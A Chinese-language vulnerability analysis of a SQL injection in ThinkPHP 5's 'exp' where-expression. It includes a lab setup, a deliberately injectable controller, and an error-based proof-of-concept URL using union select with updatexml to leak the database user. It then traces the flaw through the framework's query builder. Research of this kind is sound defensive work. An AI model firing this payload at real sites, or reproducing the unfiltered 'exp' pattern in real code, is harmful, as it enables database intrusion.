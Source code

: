 Thinkphp5 全版本
================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **select**
方法注入）。次漏洞存在于 **Mysql** 类的 **parseWhereItem**
方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL**
语句，导致 **SQL注入漏洞** 的产生。

二、漏洞影响
------------

ThinkPHP5全版本

三、复现过程
------------

### 漏洞环境

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think=5.0.10 tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.4.0",
        "topthink/framework": "5.0.10"
    },

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $username = request()->get('username');
            $result = db('users')->where('username','exp',$username)->select();
            return 'select success';
        }
    }

在 **config/database.php** 文件中配置数据库相关信息，并开启
**config/app.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );
    insert into users(id,username) values(1,'mochazz');

### poc

    http://0-sec.org:8000/index/index/index?username=) union select updatexml(1,concat(0x7,user(),0x7e),1)#

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](./.resource/Thinkphp5全版本sql注入漏洞/media/rId26.png)

### 漏洞分析

由于官方根本不认为这是一个漏洞，而认为这是他们提供的一个功能，所以官方并没有对这个问题进行修复。但笔者认为这里的数据过滤还是存在问题的，所以我们还是来分析分析这个漏洞。

程序默认调用 **Request** 类的 **get** 方法中会调用该类的 **input**
方法，但是该方法默认情况下并没有对数据进行很好的过滤，所以用户输入的数据会原样进入框架的
**SQL** 查询方法中。首先程序先调用 **Query** 类的 **where** 方法，通过其
**parseWhereExp** 方法分析查询表达式，然后再返回并继续调用 **select**
方法准备开始构建 **select** 语句。

![2.png](./.resource/Thinkphp5全版本sql注入漏洞/media/rId28.png)

上面的 **\$this-\>builder** 为 **\\think\\db\\builder\\Mysql** 类，该类继承于 **Builder** 类，所以接着会调用 **Builder** 类的
**select** 方法。在 **select** 方法中，程序会对 **SQL**
语句模板用变量填充，其中用来填充 **%WHERE%**
的变量中存在用户输入的数据。我们跟进这个 **where**
分析函数，会发现其会调用生成查询条件 **SQL** 语句的 **buildWhere**
函数。

![3.png](./.resource/Thinkphp5全版本sql注入漏洞/media/rId29.png)

继续跟进 **buildWhere** 函数，发现用户可控数据又被传入了
**parseWhereItem** where子单元分析函数。我们发现当操作符等于 **EXP**
时，将来自用户的数据直接拼接进了 **SQL** 语句，最终导致了
**SQL注入漏洞** 。

![4.png](./.resource/Thinkphp5全版本sql注入漏洞/media/rId30.png)

### 漏洞修复

未修复。

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![5.png](./.resource/Thinkphp5全版本sql注入漏洞/media/rId33.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
